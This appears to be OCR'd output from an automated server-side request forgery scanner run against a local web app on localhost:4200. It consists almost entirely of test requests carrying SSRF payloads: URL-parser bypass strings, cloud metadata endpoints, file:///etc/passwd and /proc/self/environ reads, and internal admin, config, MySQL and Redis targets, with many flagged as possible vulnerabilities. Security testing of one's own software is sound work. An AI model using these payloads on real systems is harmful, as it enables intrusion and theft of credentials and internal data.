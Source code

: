 - Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%2F%7Bdomain%7D`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%2F%3Fd%3D%7Bdomain%7D`
- Testing: `http://localhost:4200/api/activity_types?url=%7Bdomain%7D%40localhost`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%23%7Bdomain%7D`
- Testing: `http://localhost:4200/api/activity_types?url=%7Bdomain%7D.localhost`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%2F%7Bdomain%7D`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%2F%3Fd%3D%7Bdomain%7D`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%2500%7Bdomain%7D`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%3F%7Bdomain%7D`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%2F%2F%2F%7Bdomain%7D`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%2F%2F%2F%7Bdomain%7Dst%3A%2B11211aaa`
- Testing: `http://localhost:4200/api/activity_types?url=st%3A00011211aaaa`
- Testing: `http://localhost:4200/api/activity_types?url=0%2F`
- Testing: `http://localhost:4200/api/activity_types?url=1.1.1.1%20%26%402.2.2.2%23%20%403.3.3.3%2F`
- Testing: `http://localhost:4200/api/activity_types?url=127.1.1.1%3A80%5C%5C%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/api/activity_types?url=127.1.1.1%3A80%5C%5C%40%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/api/activity_types?url=127.1.1.1%3A80%3A%5C%5C%40%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/api/activity_types?url=127.1.1.1%3A80%23%5C%5C%40127.2.2.2%3A80%2F`
## Testing endpoint: http://localhost:4200/
- Testing: `http://localhost:4200/?url=169.254.169.254%2Flatest%2Fmeta-data%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=169.254.169.254%2Flatest%2Fmeta-data%2F` _(POST)_
- Testing: `http://localhost:4200/?url=metadata.google.internal%2FcomputeMetadata%2Fv1%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=metadata.google.internal%2FcomputeMetadata%2Fv1%2F` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A8080%2Fadmin`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A8080%2Fadmin` _(POST)_
- Testing: `http://localhost:4200/?url=file%3A%2F%2F%2Fetc%2Fpasswd`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=file%3A%2F%2F%2Fetc%2Fpasswd` _(POST)_
- Testing: `http://localhost:4200/?url=file%3A%2F%2F%2Fproc%2Fself%2Fenviron`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=file%3A%2F%2F%2Fproc%2Fself%2Fenviron` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A3000%2Fadmin`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A3000%2Fadmin` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%3A3000%2Fconfig`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%3A3000%2Fconfig` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A3000%2Fapi%2Finternal`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A3000%2Fapi%2Finternal` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A3000%2Frails%2Finfo`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A3000%2Frails%2Finfo` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A3000%2Flogs`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A3000%2Flogs` _(POST)_
- Testing: `http://localhost:4200/?url=mysql%3A%2F%2F127.0.0.1%3A3306%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=mysql%3A%2F%2F127.0.0.1%3A3306%2F` _(POST)_
- Testing: `http://localhost:4200/?url=mysql%3A%2F%2Flocalhost%3A3306%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=mysql%3A%2F%2Flocalhost%3A3306%2F` _(POST)_
- Testing: `http://localhost:4200/?url=redis%3A%2F%2F127.0.0.1%3A6379%2F`